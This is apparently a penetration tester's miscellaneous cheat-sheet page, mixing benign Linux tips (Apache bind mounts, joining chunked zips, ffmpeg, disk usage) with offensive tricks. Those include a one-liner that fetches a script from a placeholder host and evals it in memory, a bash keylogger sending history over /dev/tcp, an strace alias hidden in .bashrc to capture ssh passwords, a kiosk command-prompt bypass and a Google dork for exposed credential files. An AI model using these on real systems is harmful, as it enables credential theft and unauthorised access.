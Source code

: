# Random

### Cool heredoc&#x20;

* Use when you are on a `/bin/sh` and need to `su` but dont want to go into a full `tty`

```
su - root <<!
Passw0rd
id
ls /root
!
Password: uid=0(root) gid=0(root) groups=0(root)
Desktop  Documents  Downloads  go  Music  Pictures  Public  Templates  thinclient_drives  Videos
```

### Bypass a disabled command prompt with /k

```
# Win+R (To bring up Run Box)
cmd.exe /k "whoami"
```

**Description:** _'This command prompt has been disabled by your administrator...' Can usually be seen in environments such as kiosks PCs, a quick hacky work around is to use /k via the windows run box. This will carry out the command and then show the restriction message, allowing for command execution._

### _Luks On USBs_

* [https://geekyshacklebolt.wordpress.com/2019/03/06/how-to-encrypt-usb-drives-with-luks/](https://geekyshacklebolt.wordpress.com/2019/03/06/how-to-encrypt-usb-drives-with-luks/)

### Bash In memory exec one liner&#x20;

```
bash -c CMD="`wget -qO- http://<ip>/script.sh`" && eval "$CMD"
```

### Bash Keylogger&#x20;

```
PROMPT_COMMAND='history -a; tail -n1 ~/.bash_history > /dev/tcp/127.0.0.1/9000'
```

### SSH Client Strace Keylogger

* Poor mans keylogger for ssh client but it works. Add to the users `.bashrc`&#x20;

```
alias ssh='strace   -o   /tmp/sshpwd-`date    '+%d%h%m%s'`.log -e read,write,connect  -s2048 ssh' 
```

* remember to source the `.bashrc`
* `source ~/.bashrc`

### Apache map external drive to webroot

* Create a directory on the external HDD, assuming it is mounted under the `/media` directory, like so:

```
sudo mkdir /media/web_files
```

* Change the ownership of this directory and all the files under it to be owned by the Apache user `www-data` like so:

```
sudo chown -R www-data:www-data /media/web_files/
```

* Create a directory under the web root directory ie `/var/www/html/` like so:

```
sudo mkdir /var/www/html/external_files
```

* Bind the `/media/web_files/` directory to the `/var/www/html/external_files/` directory like so:

```
sudo mount --bind /media/web_files/ /var/www/html/external_files/
```

* All files on the external HDD under the `/media/web_files/` directory will be available for Apache under the `/var/www/html/external_files/` directory and you can link to them in your web page that resides in `/var/www/html/` like so:

```
<a href="external_files/file1.mp4">file1</a>
```

### Unzip a chunked archive

* you will see files ending in .001, .002 etc etc&#x20;
*   You will need to join them first. You may use the common linux app, `cat` as in the example below:

    ```
    cat test.zip* > ~/test.zip
    ```

    This will concatenate all of your `test.zip.001`, `test.zip.002`, etc files into one larger, test.zip file. Once you have that single file, you may run `unzip test.zip`

## [How to convert .mkv file into .mp4 file losslessly?](https://askubuntu.com/questions/50433/how-to-convert-mkv-file-into-mp4-file-losslessly)

```
ffmpeg -i input.mkv -codec copy output.mp4
```

### Cool Google Dorks&#x20;

```
inurl:/wp-content/uploads/ ext:txt "username" AND "password" | "pwd" | "pw"
```

### What is taking up space Linux

* I recently ran out of disk space on my Ubuntu machine, here is a quick way to see what is taking up all that space

```
root@dev:/opt# du -cha --max-depth=1 / 2>/dev/null | grep -E "M|G" 
3.9M	/run
19G	/opt
18M	/etc
18G	/home
18G	/usr
1.6G	/media
918M	/root
517M	/Kismet-20240630-21-57-41-1.kismet
11G	/snap
2.1G	/swapfile
145G	/tmp
7.3G	/var
194M	/boot
221G	/
221G	total
root@dev:/opt# cd /var
root@dev:/var# du -cha --max-depth=1 /var 2>/dev/null | grep -E "M|G" 
6.5G	/var/lib
6.5M	/var/backups
291M	/var/cache
99M	/var/crash
5.0M	/var/snap
427M	/var/log
7.3G	/var
7.3G	total
```

### Fix x11 graphical error

```
xhost +SI:localuser:root
xhost
```

